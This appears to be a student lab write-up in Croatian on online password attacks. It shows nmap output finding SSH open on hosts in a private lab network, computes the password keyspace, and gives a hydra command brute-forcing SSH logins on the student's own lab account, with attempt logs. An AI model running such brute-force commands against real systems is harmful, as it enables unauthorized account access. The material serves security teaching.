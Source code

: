 ```bash
Host is up (0.0076s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 10.0.15.10
Host is up (0.0085s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 10.0.15.11
Host is up (0.0071s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Read data files from: /usr/bin/../share/nmap
Nmap done: 16 IP addresses (12 hosts up) scanned in 16.92 seconds
```

- *nmap* nam daje informacije da je aktivno 12 *hostova* i da je na svima otvoren port 22 za SSH (Secure Shell)
- SSH omogućuje otvaranje terminala na udaljenom računalu pa će na upravo on poslužiti kako bi izvršili online napad
- kako bi se mogli prijaviti na vlastiti SSH moramo znati password odnosno moramo ga probiti vršeći online napad na vlastiti račun
- ono što znamo je da se naš *password* sastoji od 4 do 6 znakova i da su sve mala slova engleske abecede što nas vodi do zaključka da je maksimalan broj mogućih *passworda* jednak sumi od i=4 do i=6 od 26^i, a to je približno jednako 26^6
- otkrivanje *passworda* započinjamo sa brute force napadom i za to koristimo *hydru →* `hydra -l dumic_veronika -x 4:6:a 10.0.15.5 -V -t 1 ssh`
- na ovaj način testiramo sve moguće kombinacije iz *key space-a*

```bash
[DATA] max 1 task per 1 server, overall 1 task, 321254128 login tries (l:1/p:321254128), ~321254128 tries per task
[DATA] attacking ssh://10.0.15.5:22/
[ATTEMPT] target 10.0.15.5 - login "dumic_veronika" - pass "aaaa" - 1 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.5 - login "dumic_veronika" - pass "aaab" - 2 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.5 - login "dumic_veronika" - pass "aaac" - 3 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.5 - login "dumic_veronika" - pass "aaad" - 4 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.5 - login "dumic_veronika" - pass "aaae" - 5 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.5 - login "dumic_veronika" - pass "aaaf" - 6 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.5 - login "dumic_veronika" - pass "aaag" - 7 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.5 - login "dumic_veronika" - pass "aaah" - 8 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.5 - login "dumic_veronika" - pass "aaai" - 9 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.5 - login "dumic_veronika" - pass "aaaj" - 10 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.5 - login "dumic_veronika" - pass "aaak" - 11 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.5 - login "dumic_veronika" - pass "aaal" - 12 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.5 - login "dumic_veronika" - pass "aaam" - 13 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.5 - login "dumic_veronika" - pass "aaan" - 14 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.5 - login "dumic_veronika" - pass "aaao" - 15 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.5 - login "dumic_veronika" - pass "aaap" - 16 of 321254128 [child 0] (0/0)
[STATUS] 16.00 tries/min, 16 tries in 00:01h, 321254112 to do in 334639:43h, 1 active
```
